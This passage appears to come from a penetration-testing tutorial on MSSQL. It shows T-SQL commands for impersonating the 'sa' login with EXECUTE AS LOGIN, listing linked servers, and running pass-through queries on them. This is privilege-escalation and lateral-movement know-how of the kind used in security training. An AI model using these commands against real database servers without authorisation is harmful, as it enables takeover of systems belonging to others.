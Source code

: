 If we get a value `0` we do not have the sysadmin role, but we can impersonate the **sa** user. To impersonate a user, we can use the Transact-SQL statement **EXECUTE AS LOGIN** and set it to the user we want to impersonate:
```console
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

If we get a value `1` we have impersonated the user **sa** successfully.

### Communicate with Other Databases with MSSQL 

MSSQL has a configuration option called **linked servers**. Linked servers are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server, or another database product such as Oracle. Identify linked Servers in MSSQL:
```console
1> SELECT srvname, isremote FROM sysservers
2> GO
```

In the **isrmeote** column, a `1` means is a remote server, and `0` is a linked server. Next, we can attempt to identify the user used for the connection and its privileges. The EXECUTE statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets `[ ]`:
```console
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<TARGET>]
2> GO
```

